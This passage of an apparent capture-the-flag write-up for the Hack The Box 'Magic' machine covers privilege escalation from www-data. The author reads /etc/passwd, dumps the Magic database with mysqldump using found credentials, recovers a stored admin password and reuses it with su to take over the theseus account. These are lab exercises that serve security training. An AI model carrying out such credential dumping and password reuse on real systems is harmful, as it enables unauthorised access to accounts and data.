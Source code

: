 Let’s check if _theseus_ is a user on the system.

```text
www-data@ubuntu:/var/www/Magic$ cat /etc/passwd
...
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
...
```

He is. Let’s see if he reused his database credentials for his system account.

```text
www-data@ubuntu:/var/www/Magic$ su theseus
Password: 
su: Authentication failure
```

Doesn’t work. The next thing to try is logging into the database with the credentials we found.

![Image for post](../images/max/458/1*Ox4w5IsepoJU-Fx5IazDqg.png)

We can see that _mysqldump_ is installed on the box, which we’ll use to dump the database.

```text
www-data@ubuntu:/usr/bin$ mysqldump --databases Magic -utheseus -piamkingtheseus
...
--
-- Dumping data for table `login`
--LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
```

Try the credentials we found on the _theseus_ account.

```text
www-data@ubuntu:/usr/bin$ su theseus   
Password: 
theseus@ubuntu:/usr/bin$
```

We’re in! View the _user.txt_ flag.

![Image for post](../images/max/453/1*zpXdp_gjkARNlAXoXqUjqg.png)
